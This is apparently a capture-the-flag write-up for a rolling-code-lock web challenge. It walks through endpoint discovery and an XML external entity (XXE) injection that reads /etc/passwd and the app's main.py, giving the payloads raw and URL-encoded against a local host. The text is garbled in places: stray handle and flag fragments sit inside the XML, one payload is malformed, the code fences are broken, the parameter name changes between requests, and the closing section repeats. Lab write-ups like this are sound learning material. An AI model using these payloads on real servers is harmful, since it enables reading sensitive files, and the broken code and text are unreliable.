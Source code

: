 # Model E1337 - Rolling Code Lock - FLAG0

## 0x00 Home

![](./imgs/home.jpg)

Tried couple of different code but all show errors.

```
Code incorrect. Expected 06947342
```

## 0x01 Directory

Try scan sub directory with Burp

![](./imgs/directory.jpg)

And there is a comment in source code.

http://127.0.0.1/xxxxxxxxxx/admin

![](./imgs/admin.jpg)

## 0x02 get-config

http://127.0.0.1/xxxxxxxxxx/get-config

Looks like some config thing using XML

![](./imgs/get-config.jpg)

## 0x03 set-config

http://127.0.0.1/xxxxxxxxxx/set-config

It actually exist but may need parameter to set the XML

![](./imgs/set-config.jpg)

## 0x04 XXE

Prepare the XXE payload.

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd">]><config><location>&xxe;</location></config'(@BugGuy573)[Flag1]??


And encode to [url format][1] 


%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E


http://127.0.0.1/xxxxxxxxxx/set-config?param=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![](./imgs/param.jpg)

Successfully write in XXE and 302 redirect to admin page and read out /etc/passwd

![](./imgs/passwd.jpg)

## 0x05 main.py

xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>
```

http://127.0.0.1/xxxxxxxxxx/set-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22main.py%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

Execute and get the FLAG in the [main.py][2]][@BigGuy573](flag2??)]

![](./imgs/flag.jpg)

[1]: https://www.urlencoder.org/
[2]: ./main.py

Execute and get the FLAG in the [main.py][2]

![✓](./imgs/flag.jpg][@BigGuy573)

[1]: https://www.urlencoder.org/
[2]: ./main.py
